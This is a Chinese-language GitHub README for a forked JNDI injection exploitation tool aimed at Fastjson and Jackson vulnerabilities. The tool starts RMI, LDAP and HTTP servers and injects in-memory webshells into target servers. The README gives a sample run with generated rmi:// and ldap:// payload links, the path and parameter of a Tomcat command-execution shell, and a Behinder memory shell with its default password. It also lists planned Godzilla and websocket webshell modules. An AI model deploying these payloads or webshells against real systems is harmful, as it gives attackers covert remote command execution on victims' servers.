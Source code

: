 ## 介绍

JNDI注入利用工具，生成JNDI链接并启动后端相关服务，可用于Fastjson、Jackson等相关漏洞的验证。

原本想自己做一个RMI注入内存马的工具，参考了一下welk1n佬的项目，结果发现佬写的精妙，可以改动的地方很少了已经，索性直接fork大佬的项目，添加工具。
原仓库地址：https://github.com/welk1n/JNDI-Injection-Exploit

冰蝎内存🐴默认密码:elysium

## 更新功能

### 内存马注入

直接运行jar包，可以看到添加了Tomcat Memshell、Behinder两种内存马（还在更新中）

```shell
$ java -jar JNDI-Injection-Memshell-1.0-SNAPSHOT-all.jar          
[ADDRESS] >> 127.0.0.1
[COMMAND] >> open /Applications/Calculator.app
----------------------------JNDI Links----------------------------
Target environment(Build in JDK whose trustURLCodebase is false and have Tomcat 8+ or SpringBoot 1.2.x+ in classpath):
rmi://127.0.0.1:1099/qbf3r4
Target environment(Behinder Memshell):
rmi://127.0.0.1:1099/7oufct
ldap://127.0.0.1:1389/7oufct
Target environment(Tomcat Memshell):
rmi://127.0.0.1:1099/zskyrz
ldap://127.0.0.1:1389/zskyrz
Target environment(Build in JDK 1.8 whose trustURLCodebase is true):
rmi://127.0.0.1:1099/j5edul
ldap://127.0.0.1:1389/j5edul
Target environment(Build in JDK 1.7 whose trustURLCodebase is true):
rmi://127.0.0.1:1099/jkzrcz
ldap://127.0.0.1:1389/jkzrcz

----------------------------Server Log----------------------------
2023-08-25 10:07:14 [JETTYSERVER]>> Listening on 0.0.0.0:8180
2023-08-25 10:07:14 [RMISERVER]  >> Listening on 0.0.0.0:1099
2023-08-25 10:07:14 [LDAPSERVER] >> Listening on 0.0.0.0:1389
```

- Tomcat Memshell

  - 命令执行内存马：路径/shell，参数cmd

   ![](https://raw.githubusercontent.com/MUYU212/JNDI-Injection-Memshell/main/screenshot/1.jpg)

- Behinder

  - 冰蝎内存马：路径/shell，密码:elysium

  ![](https://raw.githubusercontent.com/MUYU212/JNDI-Injection-Memshell/main/screenshot/2.jpg)

## 待实现

- 融合groovy的bypass利用链到项目中。
- 更新weblogic以及其他中间件的内存马注入环境
- 增加注入哥斯拉内存马的模块
- 加入websocket内存马
